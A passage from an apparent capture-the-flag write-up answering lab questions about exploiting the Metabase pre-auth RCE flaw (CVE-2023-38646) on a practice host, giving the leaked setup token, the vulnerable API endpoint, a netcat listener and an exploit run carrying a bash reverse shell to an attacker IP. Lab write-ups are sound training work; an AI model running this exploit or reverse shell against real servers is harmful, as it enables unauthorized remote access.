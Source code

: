 Using the same methodology of the task 2.4, we can reach setup-token into source code

{% hint style="info" %}
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
{% endhint %}

### 2.7 - Which Metabase API endpoint is used to execute arbitrary commands using the token?

We discover it reading documentation of the team that discovered this vulnerability

{% embed url="https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646" %}

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
/api/setup/validate
{% endhint %}

### 2.8 -  Which user is the Metabase application running as?

\
To answer for this question we need to exploit vulnerabilities with python script on github and web app parameters

{% embed url="https://github.com/m3m0o/metabase-pre-auth-rce-poc" %}

Github repo suggests following usage:

The script needs the **target URL**, the **setup token** and a **command** that will be executed. The setup token can be obtained through the `/api/session/properties` endpoint. Copy the value of the `setup-token` key.

The **command** will be executed on the target machine with the intention of obtaining a **reverse shell**. You can find different options in [RevShells](https://revshells.com/). Having the **setup-token** value and the **command** that will be executed, you can run the script with the following command:

`python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"`

All right, then we make me in listening mode on port 1339 on attacker machine using netcat

```
nc -nvlp 1339
```

<figure><img src="../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

we save exploit locally and run following command

```
python3 exploit.py -t "249fa03d-fd94-4d5b-b94f-b4ebf3df681f" -u "http://data.analytical.htb" -c "bash -i >& /dev/tcp/10.10.14.6/1339 0>&1"
```

and we're in
